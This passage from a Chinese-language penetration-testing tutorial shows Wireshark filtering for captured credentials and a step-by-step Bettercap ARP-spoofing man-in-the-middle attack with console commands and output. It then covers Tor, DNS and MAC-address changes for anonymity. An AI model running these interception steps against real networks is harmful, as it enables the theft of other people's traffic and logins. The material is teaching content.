

它将显示该流中的内容，但如果我们关闭弹出窗口，仍然可以看到来自该 TCP 流的数据包。



#### 8. 包含 (Contains) 过滤器

如果我们正在寻找用户名和密码，可以使用 contains 过滤器。通过该过滤器，我们可以筛选出包含我们指定词汇的数据包。首先，我们需要指定协议，然后加上 `contains`，接着是您想要从中筛选结果的词汇。



| 编号 | 时间 | 源 | 目的 | 协议 | 长度 | 信息 |
|---|---|---|---|---|---|---|
| 990 | 21.074824307 | 18.192.172.30 | 10.0.2.15 | HTTP | 1460 | HTTP/1.1 200 OK (text/h |
| 1058 | 35.813242880 | 10.0.2.15 | 18.192.172.30 | HTTP | 576 | POST /userinfo.php HTTP/ |
| 1070 | 36.142524458 | 18.192.172.30 | 10.0.2.15 | HTTP | 1460 | HTTP/1.1 200 OK (text/h |

```
Window size value: 64240
[Calculated window size: 64240]
[Window size scaling factor: -2 (no window scaling used)]
Checksum: 0xcd11 (unverified)
[Checksum Status: Unverified]
Urgent pointer: 0
> [SEQ/ACK analysis]
> [Timestamps]
TCP Payload (522 bytes)
Hypertext Transfer Protocol
  HTML Form URL Encoded: application/x-www-form-urlencoded
        pe: application/x-www-form-urlencoded. Content-Length: 24. Orig
i        n: http://test.php.vulnweb.com.
Connection: keep-alive. Referer:
        http://test.php.vulnweb.com/login.php. Upgrade-
        Insecure Request
s: 1... uname=12345&pass=pass123
```

如我们所见，Wireshark 只筛选出了三个数据包，且每个数据包都包含了指定的关键字。

Wireshark 拥有许多过滤器，请花时间探索它们。在下一节中，我们将学习如何使用名为 Bettercap 的工具执行中间人攻击。

### 使用 Bettercap 进行 ARP 欺骗

在本节中，我们将使用 Bettercap 执行 ARP 欺骗，也称为中间人攻击。Bettercap 是一款用于网络安全和执行中间人攻击的 ARP 欺骗工具。请按照以下步骤执行攻击。

### ARP 欺骗（中间人攻击）

ARP 是地址解析协议（Address Resolution Protocol）的缩写，ARP 欺骗是指黑客或任何未经授权的人员向您的计算机或网络发送虚假的 ARP 消息。

通常在黑客的 MAC 地址和一个合法的 IP 地址之间建立某种联系。一旦建立此连接，黑客将接收到发送到该合法 IP 地址的所有信息。

好消息是，这种欺骗只能发生在运行 ARP 的本地网络中。黑客使用这种欺骗方法的原因各不相同，可能包括阻断数据、篡改数据或拦截关键信息。

### 什么是 MITM（中间人）攻击？

当黑客成功拦截您的通信系统并监控公司及其客户之间的所有通信时，就会发生中间人（MITM）攻击。

一旦进入该网络，黑客可以拦截通信并将交易请求重定向到他们自己的账户。没有任何互联网通信是绝对安全的，因为 MITM 攻击可以访问电子邮件、社交媒体对话等大量信息。

他们还可以潜伏在您和您经常光顾的在线购物网站之间，捕获您所有的登录详情和其他信息。WiFi 连接是使用 MITM 式攻击的黑客青睐的目标。

好消息是，您可以实施多种应对措施，在攻击发生之前将其阻止。

### 中间人攻击实践

在完全理解了什么是 ARP 欺骗及其工作原理之后，现在让我们来实施它。我们将在本节中完成此操作，并学习如何执行“中间人攻击”。

我们将使用 Bettercap 来完成此操作。按照这里列出的步骤，我们将能够有效地执行 MITM。

- 1. 安装 Bettercap

我们的第一步是安装 Bettercap。它没有预装在 Kali Linux 中，需要我们手动安装。我们在终端输入 `apt install bettercap` 来完成此操作。

```
apt install bettercap
```

```
root@kali:/home/anon# apt install bettercap
Reading package lists... Done
Building dependency tree
Reading state information... Done
bettercap is already the newest version (2.28-0kali2).
The following packages were automatically installed and are no longer required:
  bluez-firmware filezilla-common firmware-atheros firmware-brcm80211
  firmware-intel-sound firmware-iwlwifi firmware-libertas firmware-realtek
  firmware-ti-connectivity firmware-zd1211 libfilezilla0 libindicator3-7
  libjsoncpp1 libmpdec2 libprotobuf22 libpugixml1v5 libsrt1-gnutls
  libxwbase3.0-0v5 libwxgtk3.0-gtk3-0v5 libx264-159 openjdk-8-jre
  python3-chameleon python3-flask-restless python3-mimeparse
  python3-mimerender python3-waitress python3-webtest python3-zope.component
  python3-zope.event python3-zope.hookable snmp testdisk tftp
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 178 not upgraded.
root@kali:/home/anon#
```

### 2. 运行 Bettercap

安装完成后，我们现在运行它。为此，我们输入 `bettercap –iface (网络适配器名称)`。

```
root@kali:/home/anon# bettercap -iface eth0
bettercap v2.28 (built for linux amd64 with go1.14.4) [type 'help' for a list of commands]

10.0.2.0/24 > 10.0.2.15 » _
```

### 3. 输入 “help”

您需要查看所有可用命令和模块的列表。为此，您必须输入 `help`。输入后，我们现在可以看到所有模块，特别是在运行 `net.probe` 模块之后。


#### 4. 开启 net.probe 模块

我们现在需要开启“net.probe”。为了执行此操作，我们需要输入该模块的模块名称，然后点击“on”。

关闭该模块的步骤完全相同，只需在输入模块名称后输入“off”而不是“on”。一旦开启“net.probe 模块”，net.recon 会自动开启。

#### 5. 激活 “arp.spoof” 并指定其参数

在激活 “arp.spoof” 之前，您必须指定一些参数。输入 “help” 和模块名称可以让你获取关于该模块及其相关参数的完整信息。

在这个阶段，我们需要为 `arp.spoof.fullduplex` 和 `arp.spoof.targets` 参数赋能。如果我们不激活 `arp.spoof.fullduplex` 服务，我们将仅欺骗目标并通知他们你是路由器。

我们完全不希望发生这种情况。因此，我们现在必须伪装成客户端而不是路由器。

通过输入 `set arp.spoof.fullduplex true` 然后按下“回车”键来激活 ARP 欺骗全双工服务。如果我们运行 `arp.spoof` 而没有定义任何目标，那么 Bettercap 将对连接到网络的所有客户端执行 ARP 欺骗攻击。

```
10.0.2.0/24 > 10.0.2.15 » set arp.spoof.fullduplex true
10.0.2.0/24 > 10.0.2.15 »
```

如果我们运行 `arp.spoof` 而没有定义任何目标，那么 Bettercap 将对连接到网络的所有客户端执行 ARP 欺骗攻击。要定义目标类型，请**set arp.spoof.targets (目标 IP 地址)**。

我们在讨论如何获取连接到同一网络的客户端 IP 和 MAC 地址的章节中已经涵盖了无线保真度（WiFi）黑客攻击。这个 Bettercap 也可以用来检查同一网络上的客户端。只需输入 **net.show** 然后按下“回车”键。

在这个阶段，由于只有一个目标连接到 WiFi 网络，我没有定义任何特定目标。现在，通过输入 **arp.spoof on** 来开启 `arp.spoof` 服务。

```
10.0.2.0/24 > 10.0.2.15 » arp.spoof on
10.0.2.0/24 > 10.0.2.15 » [02:20:50] [sys.log] [inf] arp.spoof enabling forwarding
10.0.2.0/24 > 10.0.2.15 » [02:20:50] [sys.log] [war] arp.spoof full duplex spoofing enabled,
10.0.2.0/24 > 10.0.2.15 » [02:20:50] [sys.log] [inf] arp.spoof arp spoofer started, probing
10.0.2.0/24 > 10.0.2.15 » |
```

现在，我通过输入 `arp.spoof` 来激活 `arp.spoof` 服务。一旦完成，ARP 欺骗就开始运行，并让我们窥见 `net.sniff` 模块。我们最后通过开启 `net.sniff` 来激活该模块。

## 保持在线匿名

许多人不相信在线匿名，主要是因为它与促进和鼓励不良行为的能力相关联。如果这是真的，我们应该问自己：为了防止某些人保持匿名而牺牲许多人的隐私是否值得？这是一个困难的问题，但答案可能取决于你的看法。

许多例子解释了在线匿名的必要性，我们甚至不需要讨论不便之处（例如，“某些网站让我烦恼”）或理论（“我理应拥有隐私”）。在本章中，您将学习如何保持身份和隐私匿名以保护自己。有几种保持在线匿名的方法，我们将逐步学习其中的每一种。

### DNS (域名系统)

在理解 VPN 和代理之前，您需要了解什么是 DNS，它是如何工作的，以及为什么它很重要。

### 什么是 DNS？

DNS 代表域名系统 (Domain Name System)。您可以将 DNS 视为互联网上的电话簿。当我们访问互联网上的内容时，是通过域名来访问的。域名是像 NBC.com 或 nytimes.com 这样的网址。

在尝试在线访问信息时，浏览器使用 IP 地址进行交互。DNS 将域名转换为 IP 地址，以便浏览器能够加载它们。

如果不是因为 DNS 服务器，我们将不得不记住或记录下我们在互联网上想要查找的所有内容的 IP 地址。在 Web 浏览器中，DNS 查询过程在没有人类交互或感知的情况下进行。这是一个自动化过程。

### 为什么 DNS 很重要？

如果您不更改 DNS 配置，您将使用 ISP 提供的默认 DNS，这意味着您的流量可以在您所在的国家被记录和识别。这就是为什么使用一个不记录您的请求并保证匿名的、信誉良好且可靠的来源来更改 DNS 至关重要。

打开终端并输入：

```
cat /etc/resolv.conf
```

在这里，您可以看到我的服务名称是 192.168.0.1，并且我的整个网络将通过这个 DNS 路由。然而，通过使用代理，您可以将流量引导到另一个国家。例如，您可能在法国，但使用来自德国的代理。在这种情况下，看起来您位于德国，但当他们检查 DNS 时，它仍然位于法国。这样一来，人们很容易得出您在法国的结论，从而使使用代理失去了意义。因此，您必须更改 DNS，让自己看起来像是在不同的地方。

### 如何更改 DNS？

更改 DNS 非常简单。您只需要按照以下步骤操作：

- 1. 打开终端并输入以下命令：

```
nano /etc/dhcp/dhclient.conf
```

在这里，您可以看到文本前面有 # 符号，这意味着它们是被注释掉的，未处于激活状态。在我们将井号删除之前，系统将忽略这些命令，但我们不需要在这里更改任何内容，所以请向下滚动。

但是，我们需要对 `prepend domain-name` 服务进行更改，因此删除井号并更改 DNS 数字。我正在使用一个开放 DNS，这也是您在练习时应该做的。

在这里，您可以看到我使用了两个 DNS：208.67.222.222 和 208.67.220.220。要使用两个 DNS，您只需要在写完第一个 DNS 数字后加上逗号，然后输入另一个，如截图所示。

之后，按下 Ctrl + O 然后按下回车，接着按下 Ctrl + X 退出。

之后，我们必须重启您的服务网络管理器。为此，输入以下命令：

```
service network-manager restart
```

这样，您就成功更改了 DNS 并重启了网络管理器。下一步应该是验证一切是否正常。为此，请使用命令：`cat /etc/resolv.conf`

如您所见，我们使用了三个 DNS。您可以 99% 地确定所有流量都将通过第一个 DNS 路由。如果它失效，流量将通过第二个 DNS 路由。这意味着您已经成为一名匿名的互联网用户。

在下一章中，我们将学习如何将设备与 tor 代理连接，以实现完全的匿名。

### Tor 代理

### 什么是代理？

每当我们在线与某人连接或访问网站时，我们使用的计算机都会与对方或站点共享其“地址”或互联网协议 (IP)。这是人们可以找到您并与之沟通的地址。它是将您与在线世界连接起来的东西。IP 地址可以揭露关于您的许多信息，例如您的城市、国家、互联网服务提供商、服务器等。然而，取决于目的地，他们还可以收集更多敏感信息，例如您的操作系统、浏览器和浏览历史记录。代理服务器允许您使用不同的或替代的 IP 地址在网上浏览。通常，您的信息从您的计算机发送到您的服务提供商，然后发送到目的地，但代理增加了一个额外步骤，在交付到目的地之前您的 IP 地址会被遮掩。通过简单的网络搜索很容易找到代理，正确实施需要少量的研究，但对于普通家庭网络用户来说是非常容易获取的。

### 代理如何工作？

代理服务器充当您与互联网之间的门户。它是一个中间服务器，将用户与他们浏览的网站隔离开来。


代理服务器还充当防火墙和 Web 过滤器。它们提供共享的网络连接，并缓存数据以加快常用请求的响应速度。

当你使用代理服务器时，互联网流量会通过代理传输到你输入的地址。随后，该请求将通过代理服务器返回。然后，代理服务器会将网站信息转发给你。

直接访问目标网站看似更简单，但现代代理服务器的功能远不止于传递数据。代理提供了一种安全性，并在保护你的在线隐私方面发挥巨大作用。任何值得信赖的代理服务器都能保护你和你的计算机免受网络世界中几乎所有恶意项目的侵害。

#### 代理如何帮助我们保持匿名？

许多敏感信息与你的 IP 地址绑定。在许多情况下，你的 IP 地址可以将你的位置精确到街道级别。代理可以掩盖这些位置数据，为你提供隐私。代理还可以隐藏其他敏感信息，例如操作系统和浏览历史记录，这些信息可能被用于操纵你的浏览体验。利用这些信息，你可能会成为目标，并被推送带有偏向性的广告或信息。通过隐藏这些信息，你的网页匿名性得到了增强。代理还可以修改或伪造信息，允许你更改接收实体看到的关于你的信息。最常见的用途是将你披露的位置更改为其他国家，从而访问否则无法访问的海外内容。你还可以隐藏关于你的其他附加信息，从而提供匿名性。然而，一些代理可能会向网站透露你正在掩盖 IP 地址，这可能会阻止你访问信息。高级匿名代理站点则不会透露用户正在使用代理服务器。这样，你就可以在目标网站意识不到你使用代理的情况下，保护所有个人信息。

### 实操环节

我们将使用 Kali Linux 中的 Anonsurf 工具来实现 Tor 代理。借助该工具，我们可以非常轻松地让系统连接到代理。

我们需要安装一个名为 Anonsurf 的仓库，请按照以下步骤操作：

- 1. 打开 Mozilla 浏览器，搜索 Anonsurf GitHub 然后按回车
- 2. 打开搜索结果的第一项，进入如图所示的页面，复制该 URL



- 3. 重新打开终端，输入 `git clone` 并粘贴 URL 进行下载

```
git clone https://github.com/Und3rf10w/kali-anonsurf
```



> 我已经下载了这个工具，所以显示 Anonsurf 已经存在。在你的情况下，应该可以毫无问题地下载。

- 4. 输入 `cd kali-anonsurf/` 进入 kali-anonsurf 目录



- 5. 输入 `ls`。



- 6. 我们需要运行 installer.sh，请输入以下命令。

```
./installer.sh
```



从上面的截图中，你可以看到安装已经开始，将在几秒钟内完成。



屏幕应显示上述信息，告知你安装已完成且可以运行该工具。

你可以直接退出该界面并返回主目录。

- 7. 输入 `anonsurf --help` 查看该工具提供的选项。

#### Anonsurf --help



如你所见，你应该使用 "start" 命令启动工具，"stop" 用于停止，"restart" 用于停止并重新启动工具，"change" 用于更改身份，"status" 用于确认 Anonsurf 是否正常工作，以及 "myip" 用于查看当前 IP 地址。那么，让我们开始启动这个工具吧：

- 8. 为此，你只需要输入 **anonsurf start**。



你的屏幕上应该会看到类似的信息，通知你 Anonsurf 已经启动。接下来，你需要检查工具是否正常工作。

- 9. 输入 **anonsurf status**



你的窗口应该看起来与上面的截图类似。一旦确定一切运行正常，你应该查看你的 IP 信息，以验证你是否已完全匿名。

- 10. 输入 `anonsurf myip` 查看当前 IP 地址。



如你所见，我的 IP 是 178.217.187.39。让我们看看这个 IP 地址似乎源自哪个国家。

为此，你只需要打开浏览器，在 DuckDuckGo 中输入 DNS leaks，然后查看区域。



如你所见，看起来我是在挪威浏览，但这与事实相去甚远。你也可以使用此站点来检测任何 DNS 泄漏，因为那可能会终结你的匿名性。

额外提示：考虑每隔几分钟重启一次 Anonsurf 工具，以实现完全不可检测的匿名性。

## 更改你的 MAC 地址

### 什么是 MAC 地址？

MAC 是 Media Access Control（媒体访问控制）的缩写。与许多人的认知相反，MAC 地址与 Apple Inc. 的 Macintosh 毫无关系。MAC 地址是一组硬件识别数字，旨在唯一地标识连接到网络的任何设备。

### 为什么我们需要更改 MAC 地址

更改 MAC 地址旨在通过保护连接到网络的用户的身份来增强隐私。简而言之，这是一种确保匿名的方法。然而，更改 MAC 地址仅在局域网或 WiFi 网络中有效。当你连接到互联网时，它的作用并不那么强大。

### 实操环节

我们将使用 macchanger 来更改 MAC 地址，让我们来看看这个工具的功能：

- 1. 打开终端并输入 `macchanger --help`。



你可以看到 -h 用于帮助，-v 用于识别版本，-s 用于显示当前 MAC 地址，-e 用于编辑，-a 用于随机更改，-p 用于永久，-r 用于随机，-l 用于关键词列表，-b 用于 bia，以及 -m 用于手动更改 MAC 地址。

让我们检查我们的 MAC 地址。

- 2. 打开终端并输入 `ifconfig`。

